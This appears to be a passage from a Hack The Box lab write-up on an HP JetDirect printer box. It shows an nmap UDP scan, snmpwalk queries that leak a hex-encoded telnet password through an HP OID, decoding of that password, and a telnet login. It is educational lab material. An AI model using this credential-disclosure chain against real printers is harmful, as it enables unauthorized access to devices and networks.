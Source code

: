 ```
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>

```
We do not have any open port that responds to 9100 and 8080, so we should discard using this exploit as target is not exploitable.

### SNMP JetAdmin Device Password Disclosure
this exploit requires an open SNMP port, SNMP port is running on port 161 UDP, so we can scan for UDP ports using nmap.
```
Nmap scan report for 10.10.11.107
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE VERSION
161/udp  open          snmp    SNMPv1 server (public)
2002/udp open|filtered globe
```
SNMP port is open so we can try to exploit this.  
Let's try a SNMP walk and then query for the OID specified in the vulnerability report.
```
[root@kali exploits ]$ snmpwalk -v 2c -c public $TARGET
iso.3.6.1.2.1 = STRING: "HTB Printer"
[root@kali exploits ]$ snmpwalk -v 2c -c public $TARGET .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
BITS array represent the hex encoded password, let's try do decode it!
```
[root@kali exploits ]$ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5#          
```
We got telnet passwor, so now we can login int telnet service gaining user access

## User
Now that we have the password for the telnet service we can login to the box, and run help

```
[root@kali ~ ]$ telnet $TARGET
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
```